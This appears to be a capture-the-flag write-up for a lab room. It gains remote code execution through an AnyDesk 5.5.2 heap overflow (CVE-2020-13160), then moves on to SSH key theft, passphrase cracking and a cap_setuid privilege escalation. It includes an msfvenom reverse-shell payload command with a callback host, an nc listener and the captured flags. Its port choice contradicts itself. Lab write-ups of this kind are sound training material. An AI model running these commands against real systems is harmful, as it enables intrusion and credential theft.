

## Overview

| Item | Detail |
| --- | --- |
| **Room** | **Annie** |
| **Difficulty** | Easy–Medium |
| **Attack Vector** | AnyDesk 5.5.2 remote code execution |
| **Privilege Escalation** | Misconfigured `setcap` on `python3` binary |

---

## 1. Reconnaissance

An initial service scan was performed with Nmap:

```bash
nmap -sV -sC -sS 10.48.181.10
```

**Results:**

| Port | State | Service | Version |
| --- | --- | --- | --- |
| 22/tcp | open | ssh | OpenSSH 7.6p1 (Ubuntu Linux) |
| 7070/tcp | open | ssl/realserver | AnyDesk Client |

The certificate returned on port 7070 identified the service as an **AnyDesk Client**, which is not a standard exposed service and warranted further investigation.

---

## 2. Vulnerability Research

A search for known AnyDesk vulnerabilities pointed to a documented remote code execution issue affecting the client. Reference: [lisandre.com — AnyDesk cheat sheet](https://lisandre.com/cheat-sheets/anydesk).

Confirmed via `searchsploit`:

```bash
searchsploit anydesk
```

The relevant exploit module was retrieved:

```bash
searchsploit -m linux/remote/49613.py
```

This corresponds to **CVE-2020-13160** — an AnyDesk 5.5.2 remote heap overflow leading to code execution.

---

## 3. Exploitation

### 3.1 Payload Generation

Since outbound traffic on arbitrary ports may be filtered, port `7070` (already permitted for AnyDesk traffic) was used instead of the exploit's default `4444`:

```bash
msfvenom -p linux/x64/shell_reverse_tcp LHOST=$KALI_IP LPORT=4444 \
  -b "\x00\x25\x26" -f python -v shellcode
```



- Edit IP address to victim host.
- Replace generated shellcode in the exploit.

### 3.2 Listener and Execution

```bash
rlwrap nc -lvnp 4444
```

```bash
python2 49613.py
```

Shell access was successfully obtained.

---

## 4. Initial Access — Flag Capture

```bash
ls
cat user.txt
```

```
THM{N0t_Ju5t_ANY_D3sk}
```

---

## 5. Lateral Movement — SSH Key Extraction

The user's private SSH key was located and exfiltrated:

```bash
cd .ssh
cat id_rsa
```

The key contents were copied locally and saved as `id_rsa`, with permissions corrected:

```bash
chmod 600 id_rsa
```

### 5.1 Cracking the Key Passphrase

```bash
ssh2john id_rsa > hash.txt
john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt
```

**Result:**

```
annie123    (id_rsa)
```

### 5.2 Authenticating via SSH

```bash
ssh -i id_rsa annie@10.48.181.10
```

Access was gained as user `annie`.

---

## 6. Privilege Escalation

An enumeration for SUID binaries and capabilities revealed a misconfiguration:

```bash
annie@desktop:~$ find / -perm -4000 -type f 2>/dev/null
/sbin/setcap
```

Rather than a standard SUID binary, the box exposed the ability to abuse `setcap` directly. A local copy of the Python 3 interpreter was created and granted the `cap_setuid` capability:

```bash
cp /usr/bin/python3 .
setcap cap_setuid+ep /home/annie/python3
```

This capability allows the binary to call `setuid(0)` regardless of the invoking user, granting a root shell:

```bash
./python3 -c 'import os; os.setuid(0); os.system("/bin/bash")'
```


Root access confirmed.

---

## 7. Root Flag

```bash
cat /root/root.txt
```

```
THM{0nly_th3m_5.5.2_D3sk}
```

---

## Summary

| Stage | Technique |
| --- | --- |
| Recon | Nmap service/version scan identified an exposed AnyDesk client on a non-default port |
| Initial Access | CVE-2020-13160 — AnyDesk 5.5.2 remote code execution via crafted shellcode |
| Lateral Movement | SSH private key exfiltration, offline passphrase cracking (John the Ripper + rockyou.txt) |
| Privilege Escalation | Abuse of `cap_setuid` capability on a copied `python3` binary |
